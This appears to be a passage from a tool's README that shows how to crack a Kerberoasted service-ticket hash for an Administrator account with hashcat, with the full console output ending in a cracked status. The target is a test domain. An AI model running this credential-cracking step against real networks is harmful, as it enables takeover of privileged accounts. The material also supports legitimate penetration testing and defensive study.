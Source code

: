 Copy the above hash to a file called hash.txt.

Ensure hashcat is installed: `msfuser@ubuntu:~/git/kerberoast$ sudo apt install hashcat`

With a word list of your choice run the following command:

```
msfuser@ubuntu:~/git/kerberoast$ hashcat -m 13100 --force -a 0 hash.txt wordlist.txt
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Core(TM) i7-9750H CPU @ 2.60GHz, 16384/41063 MB allocatable, 6MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64
 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=1 -D DGST_R2=2 -D DGST_R3=3
 -D DGST_ELEM=4 -D KERN_TYPE=13100 -D _unroll'
 
* Device #1: Kernel m13100_a0-pure.64a04b9e.kernel not found in cache! Building may take a while...
Dictionary cache built:
* Filename..: wordlist.txt
* Passwords.: 3
* Bytes.....: 33
* Keyspace..: 3
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.

$krb5tgs$23$*1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM*$2b5cda0496cdd9cfb11a00a9b03a0d31$76975a9115860927140
<truncated due to size>

Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 TGS-REP etype 23
Hash.Target......: $krb5tgs$23$*1-40a10000-Administrator@HTTP~testServ...c115e3
Time.Started.....: Tue Jan 10 07:41:11 2023 (0 secs)
```